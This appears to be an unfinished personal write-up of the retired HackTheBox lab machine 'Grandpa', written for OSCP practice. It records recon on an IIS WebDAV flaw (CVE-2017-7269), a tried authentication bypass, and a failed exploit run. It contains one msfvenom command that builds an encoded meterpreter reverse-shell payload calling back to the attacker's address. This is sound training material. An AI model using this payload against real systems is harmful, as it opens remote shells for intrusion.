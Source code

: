 
Name: Grandpa
Date:  5/11/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- Old HTB boxes are weird
- I am sick weird old boxes  
- Need I too frantic

## Recon

![ping](HackTheBox/Retired-Machines/Grandpa/Screenshots/ping.png)

[[CVE-2000-0114-http___10.129.95.233__vti_inf.html]] is 0 in severity, but 
[[CVE-2017-7269-http___10.129.95.233]] is critical RCE 9.5! for a buffer overflow, which there is a metasploit exploit for [https://www.exploit-db.com/exploits/41992](https://www.exploit-db.com/exploits/41992). There is also an 
[Explaination](https://www.exploit-db.com/exploits/8704) for a Remote Authenication Bypass allowing unrestricted listing downloading and uploading of files into password protected WebDAV folder. The 8806.pl did seem to work and neither did adding `%c0%af` into `curl`'s against `/images/` and  `/_Private/`. 

![](searchsploitoutput.png )

I tried for serval hours over multiple months for this box, but I do not have the time to let learning fall by the wayside. Returning to this knowing it require authenicated bypassing 

![](webdav.png)

## Exploit

Headturning I thought about making this a Helpthrough with IT security, but
[Explodingcan](https://github.com/danigargu/explodingcan) was an options I remember, as I though about following along I decide to be the most OSCP about this and do this entirely with the python2 exploit. I had already had that written above and found and was a option. Emotionally I was frantic and am still abit for various reasons of due to the [[Granny-Helped-Through]].

I wanted ot use do bothmeterpreter and the shell version and privilege escalation on windows XP does bananas time wise. But I have been burnt really hard for time and stressing about myself that its sort of me, but it is also these boxes. 
```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.109 LPORT=80 > shellcode-met
```

```bash 
Traceback (most recent call last):
  File "41738.py", line 43, in <module>
    data = sock.recv(80960)
socket.error: [Errno 104] Connection reset by peer
```
Apparently
*Connection reset by peer" is the TCP/IP equivalent of slamming the phone back on the hook. It's more polite than merely not replying, leaving one hanging. But it's not the FIN-ACK expected of the truly polite TCP/IP converseur."*

The hellscape of python:
https://python.readthedocs.io/en/v2.7.2/library/httplib.html is renameed to http.client, 

I got a shell on the box, but I know would I run into the same issues, but I got metasploit issues. I know the metasploit exploit works, just not the privesc. I will finish this later a bit more calmly.

## Foothold

## PrivEsc

      
